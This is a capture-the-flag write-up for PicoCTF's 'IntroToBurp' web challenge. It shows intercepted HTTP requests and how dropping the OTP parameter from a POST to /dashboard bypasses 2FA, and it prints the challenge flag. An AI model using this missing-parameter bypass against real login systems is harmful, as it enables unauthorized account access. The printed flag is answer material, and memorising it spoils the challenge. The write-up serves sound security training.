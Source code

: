 ```yaml
---
title: "IntroToBurp"
description: "Try here to find the flag\n\nHint: Try using burpsuite to intercept request to capture the flag.\nHint: Try mangling the request, maybe their server-side code doesn't handle malformed requests very well."
pubDate: 2025-03-13
ctf: "PicoCTF"
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["easy"]
image: "./images/picoctf/introtoburp/icon.png"
---
```


We are supplied a web application that has a registration form:
![form.png](images/picoctf/introtoburp/form.png)

As the challenge says to use Burp Suite, so I set up my proxy with PwnFox and capture the website traffic.

I then fill in the form and send the contents:
```
POST / HTTP/1.1
Host: titan.picoctf.net:56775
...
Cookie: session=eyJjc3JmX3Rva2VuIjoiNGI5M2RlZmQyYTM1NjdmOWQzMjRhM2YxMDY2ZTJiNGRlNWQ2MTJiNiJ9.Z9Jfzw.fPiTJRsE5bmU_QFhnNFs-Z6cklE
...

csrf_token=IjRiOTNkZWZkMmEzNTY3ZjlkMzI0YTNmMTA2NmUyYjRkZTVkNjEyYjYi.Z9Jfzw.r4YYR6jHDamnbwk9w576NDvb0qw&full_name=a&username=b&phone_number=c&city=d&password=3&submit=Register
```

We send the POST request, then are redirected to `/dashboard`:
```html
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.
```

The `/dashboard` endpoint asks for a 2FA code, that we do not have.
![2fa.png](images/picoctf/introtoburp/2fa.png)

Filling it in any way with '123456' responds with:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Invalid OTP
```

Boooooooo.

Looking at the POST request sent to `/dashboard`, this is what is sent:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...

opt=123456
```

What if we don't send an OTP? The application might not check if the OTP exists and default functionality could be to authenticate.

Let's send the following request:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:56775
...
```

The application responds:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.8.10
...

Welcome, b you sucessfully bypassed the OTP request. 
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}
```

And we get the flag!
Flag: `picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}`
